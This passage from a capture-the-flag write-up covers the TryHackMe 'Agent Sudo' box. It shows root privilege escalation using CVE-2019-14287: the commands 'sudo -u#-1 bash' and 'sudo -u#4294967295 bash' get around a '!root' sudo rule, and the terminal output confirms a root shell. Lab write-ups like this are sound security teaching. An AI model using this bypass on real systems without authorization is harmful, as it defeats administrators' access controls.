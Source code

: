 Now let's try to get root. First, I check to see what our friend `----s` has `sudo` permissions to run:

```shell
----s@agent-sudo:~$ sudo -l
[sudo] password for ----s: 
Matching Defaults entries for ----s on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ----s may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Well, that is lucky. I immediately google this command and discover CVE-2019-14287. This exploit works due to some remarkably simple logic. The security policy applied – which allows `----s` to run `bash` as any user except root – is quite sensible. However, unfortunately, `sudo` faithfully interprets `#-1` after the `-u` user flag and, upon checking for user number `-1`,  will run as user `0`: `root`.

```shell     
----s@agent-sudo:~$ sudo -u#-1 bash
root@agent-sudo:~# whoami
root
```

This can also be done with `4294967295` instead of `-u`. h/t [WhiteSource](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)

```shell
----s@agent-sudo:~$ sudo -u#4294967295 bash
[sudo] password for ----s: 
root@agent-sudo:~# whoami
root
```

Pretty crazy! 

Now for the final spy message of the box:
```shell
root@agent-sudo:/# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
🎌root flag🎌

By,
-----l a.k.a Agent R

```
